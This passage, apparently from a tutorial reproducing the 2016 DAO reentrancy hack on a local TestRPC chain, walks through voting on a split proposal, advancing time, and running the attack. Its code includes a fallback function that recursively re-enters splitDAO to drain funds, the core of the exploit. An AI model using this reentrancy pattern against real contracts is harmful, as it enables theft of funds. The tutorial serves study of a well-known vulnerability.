 ### Step 7: Vote yes on the proposal

This is a simple function call. Like the `makeSplitProposal()` function above, the `voteYesOnProposal()` function was added to the Hack contract to ensure the Hack contract was the entity voting yes. Since it's encapsulated in the Hack contract, it's as simple as calling a single function from Javascript. We need only pass along the proposal id and our vote to ensure our vote is counted:

```javascript
function voteYesOnProposal() {
  DAO.vote(proposalID, true);
}
```

### Step 8: Wait a week

The minimum waiting period for a split proposal is one week. Since we created our proposal above with a waiting period of a week, we need to tell the TestRPC to jump forward that much time (in seconds). I'll leave that as an exercise for the reader, or you can just [review the script](https://github.com/tcoulter/dao-truffle/blob/master/index.js).

### Step 9: Perform our first split

The hack itself is a continuous stream of split requests, however for our script we start by splitting the DAO once ourselves. We do this mostly for the purposes of the script so we can get the newly created DAO's address that we can later use to show our total bounty. We've set up the hack contract to only make one split the first time we call `splitDAO()` (see `calls` and `calls_to_make`; `calls_to_make` defaulted to `1` when we deployed the contract). We need to enforce the amount of splits we intend to make because otherwise we'd trigger the hack by continuing to make splits from the fallback function.

```javascript
function splitDAO() {
  calls += 1;
  DAO.splitDAO(proposalID, this);
}
```

Like when we created a proposal we also wait for an event here, this time the `Transfer` event, but again you can see how we did that [within the script](https://github.com/tcoulter/dao-truffle/blob/master/index.js).

### Step 10: Run the hack

This is where things get interesting. We performed a significant setup in order to get to this point. Fortunately, all logic of the hack is contained within the Hack and Proxy contracts.

```javascript
function runHack(uint _calls_to_make) {
  calls = 0;
  calls_to_make = _calls_to_make;
  proxy.empty();
  splitDAO();
}

function() {
  if (calls < calls_to_make) {
    splitDAO();
  } else {
    fillProxy();
  }
}
```
